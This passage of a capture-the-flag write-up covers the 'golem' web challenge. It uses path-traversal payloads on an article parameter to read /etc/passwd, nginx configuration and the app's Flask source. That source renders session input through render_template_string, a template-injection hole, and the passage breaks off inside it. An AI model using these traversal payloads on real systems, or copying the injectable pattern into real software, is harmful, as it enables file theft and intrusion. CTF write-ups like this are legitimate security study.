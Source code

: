 After looking into response headers it became evident that this app is running over an nginx server. After a few minutes of fiddling we managed to find an LFI at the article link.
Link is pointing to **https://golem.asisctf.com/article?name=article**, I tried path traversal on **name** parameter. And yes! we can read contents of well known files like **/etc/passwd** using this, but we don't know where the flag is, so we have to read source code of the server. In order to find where source is located we need to read nginx configuration. So, with **name=../../../../etc/nginx/nginx.conf** I was able to read contents of that file. 

```config
##
# Virtual Host Configs
##
## configs: default, golem
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
```

So, now with **name=../../../etc/nginx/sites-enabled/golem**

```config
location / {
    uwsgi_pass golem;
    include uwsgi_params;
}

location /static/ {
    root /opt/serverPython/golem;
    expires 30d;
}
```

Now we know the root folder of this application which is **/opt/serverPython/golem**, with few educated guesses (main.py, init.py etc.) I found server.py in app root folder.

```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask.ext.session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))
    golem = request.form.get("golem") or None
    if golem is not None:
        golem = golem.replace(".", "").replace("_", "").replace("{","").replace("}","")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem	
    template = None
    if session['golem'] is not None:
        template = '''{%% extends "layout.html" %%} {%% block body %%} <h1>Golem Name</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> {%% endblock %%} ''' % session['golem']
        print
        session['golem'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
```